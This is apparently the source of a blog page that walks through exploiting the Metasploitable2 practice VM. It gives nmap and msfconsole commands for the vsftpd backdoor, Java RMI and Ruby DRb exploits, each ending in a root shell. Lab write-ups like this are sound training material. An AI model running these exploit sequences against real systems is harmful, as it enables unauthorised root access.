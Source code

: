 ```yaml
---
id: 143
title: Exploiting metasploitable2
date: 2020-07-23T21:47:15-06:00
author: jwinn
layout: page
guid: https://jwinn.getamonkey.com/?page_id=143
---
```

<div id="ez-toc-container" class="ez-toc-v2_0_11 counter-hierarchy counter-decimal ez-toc-grey">
  <div class="ez-toc-title-container">
    <p class="ez-toc-title">
      Table of Contents
    </p>
    
    <span class="ez-toc-title-toggle"><a class="ez-toc-pull-right ez-toc-btn ez-toc-btn-xs ez-toc-btn-default ez-toc-toggle"><i class="ez-toc-glyphicon ez-toc-icon-toggle"></i></a></span>
  </div><nav>
  
  <ul class="ez-toc-list ez-toc-list-level-1">
    <li class="ez-toc-page-1 ez-toc-heading-level-2">
      <a class="ez-toc-link ez-toc-heading-1" href="https://jwinn.getamonkey.com/?page_id=143#(WARNING_ongoing_and_many_outright_spoilers!)" title="(WARNING:  ongoing and many outright spoilers!) ">(WARNING: ongoing and many outright spoilers!) </a><ul class="ez-toc-list-level-4">
        <li class="ez-toc-heading-level-4">
          <ul class="ez-toc-list-level-4">
            <li class="ez-toc-heading-level-4">
              <a class="ez-toc-link ez-toc-heading-2" href="https://jwinn.getamonkey.com/?page_id=143#VSFTPD" title="VSFTPD:">VSFTPD:</a>
            </li>
            <li class="ez-toc-page-1 ez-toc-heading-level-4">
              <a class="ez-toc-link ez-toc-heading-3" href="https://jwinn.getamonkey.com/?page_id=143#GNU_Classpath_RMI_Registry" title="GNU Classpath RMI Registry:">GNU Classpath RMI Registry:</a>
            </li>
            <li class="ez-toc-page-1 ez-toc-heading-level-4">
              <a class="ez-toc-link ez-toc-heading-4" href="https://jwinn.getamonkey.com/?page_id=143#Ruby_DRb_RMI" title="Ruby DRb RMI">Ruby DRb RMI</a>
            </li>
          </ul>
        </li>
      </ul>
    </li>
  </ul></nav>
</div>

## <span class="ez-toc-section" id="(WARNING_ongoing_and_many_outright_spoilers!)"></span>(WARNING: ongoing and many outright spoilers!) <span class="ez-toc-section-end"></span>

_192.168.5.88 is the example Metasploitable2 target:_

#### <span class="ez-toc-section" id="VSFTPD"></span>VSFTPD:<span class="ez-toc-section-end"></span>

  * Used &#8216;nmap &#8211;script ftp-vsftpd-backdoor -p 21 192.168.5.88&#8217; to confirm
      * Used msfconsole:
          * &#8216;use exploit/unix/ftp/vsftpd\_234\_backdoor&#8217;
          * &#8216;set RHOSTS 192.168.5.88&#8217;
          * &#8216;exploit&#8217;
          * …got shell as root

#### <span class="ez-toc-section" id="GNU_Classpath_RMI_Registry"></span>GNU Classpath RMI Registry:<span class="ez-toc-section-end"></span>

  * Used msfconsole:
      * &#8216;use exploit/multi/misc/java\_rmi\_server&#8217;
      * &#8216;set RHOSTS 192.168.5.88&#8217;
      * &#8216;set RPORT 1099&#8217;
      * &#8216;set TARGET 0&#8217;
      * &#8216;run&#8217;
      * …got meterpreter shell as root

#### <span class="ez-toc-section" id="Ruby_DRb_RMI"></span>Ruby DRb RMI<span class="ez-toc-section-end"></span>

  * Used msfconsole:
      * &#8216;use exploit/linux/misc/drb\_remote\_codeexec&#8217;
      * &#8216;set URI druby://192.168.5.88:8787&#8217;
      * &#8216;run&#8217;
      * …got shell as root